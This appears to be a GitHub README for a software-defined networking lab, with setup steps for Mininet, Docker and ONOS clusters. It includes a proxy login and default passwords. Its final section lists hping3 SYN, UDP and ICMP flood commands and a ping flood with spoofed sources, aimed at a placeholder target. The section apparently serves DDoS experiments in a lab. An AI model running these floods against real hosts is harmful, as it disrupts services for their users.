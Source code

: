 ## Installing Mininet
* sudo apt-get install mininet

## Installing Docker
* sudo apt-get purge docker docker-engine docker.io
* sudo apt-get update
* sudo apt-get install apt-transport-https ca-certificates curl software-properties-common
* curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
* sudo apt-key fingerprint (**FingerPrint**)
* Verify that you now have the key with the fingerprint.
* sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
* sudo apt-get update
* sudo apt-get install docker-ce

## Configuring Proxy in docker
* mkdir -p /etc/systemd/system/docker.service.d
* sudo gedit /etc/systemd/system/docker.service.d/http-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTP_PROXY=http://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo gedit /etc/systemd/system/docker.service.d/https-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTPS_PROXY=https://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo systemctl daemon-reload
* sudo systemctl restart docker
* open new terminal and verify that proxy is set by typing <br> *sudo systemctl show --property=Environment docker*
* docker run hello-world
## Downloading onos
* docker pull onosproject/onos:1.11.1
* sudo docker images (verify)
## Installing other requirements
* sudo apt-get purge python-pip
* wget https://bootstrap.pypa.io/get-pip.py
* python get-pip.py
* sudo pip install networkx
* sudo pip install paramiko

## Running onos instances
* sudo docker run -t -d --name onos1 onosproject/onos:1.11.1<br>
 * sudo docker run -t -d --name onos2 onosproject/onos:1.11.1<br>
* sudo docker run -t -d --name onos3 onosproject/onos:1.11.1<br>
## Docker IPs
* 172.17.0.2
* 172.17.0.3 and so on (based on number of instances)
## SSH inside the ONOS
* ssh -p 8101 karaf@172.17.0.2
* password : **karaf**
## Activating apps inside ONOS
* app activate org.onosproject.openflow
* app activate org.onosproject.fwd
## Accessing the GUI 
* Go to http://172.17.0.2:8181/onos/ui/index.html
* username : **onos**
* password : **rocks**
## Wiping out ONOS
* wipe-out please (clears the nodes)
## Stopping already running instances
* docker stop onos1 onos2 onos3
## Removing old containers
* docker rm onos1 onos2 onos3
## Forming cluster
* ./onos-form-cluster -u karaf -p karaf 172.17.0.2 172.17.0.3 172.17.0.4
## using standard mininet topologies
* sudo mn --controller=remote,ip=172.17.0.2,port=6653 --topo=[ linear|minimal|reversed|single|torus|tree ],10 
## cleaning mininet
* sudo mn -c
## DDOS Attacks
+ ### SYN Flood
```
sudo hping3 --rand-source –S –L 0 –p 80 <target IP>
```
+ ### UDP Flood
```
sudo hping3 --rand-source -–udp -p 53 <target IP> --flood
```
+ ### ICMP Flood
```
sudo hping3 --icmp --rand-source <target IP> --flood
```
+ ### Ping Flood
```
sudo ping -f -s 65500 <Target IP>
```
## Other contributors
* [Chaitanya kumar](https://github.com/Jackson2398)
* [Aditya Choudary](https://github.com/adityachd123)
* [Kapil Dev](https://github.com/kapilDev1)
* [Ayushi Sharma](https://www.google.com)
